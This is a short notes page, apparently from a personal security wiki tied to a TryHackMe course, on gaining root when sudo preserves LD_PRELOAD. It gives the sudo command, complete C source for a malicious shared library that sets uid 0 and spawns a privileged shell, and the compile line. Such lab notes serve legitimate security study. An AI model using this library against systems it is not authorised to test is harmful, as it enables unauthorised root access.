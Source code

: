 # Exploiting LD_PRELOAD

If LD_PRELOAD is preserved by sudo, then it’s possible to use a malicious dynamic library to gain root access — just run `sudo LD_PRELOAD=/path/to/malicious.so program-runnable-with-nopasswd`. [Preserved environment variables are listed by `sudo -l`.](enumerate-sudo-access.md)

A simple malicious library (perhaps *the* simplest) that can exploit the LD_PRELOAD trick is:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -shared -nostartfiles -o /path/to/malicious.so /path/to/malicious.c
```

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> October 31, 2021
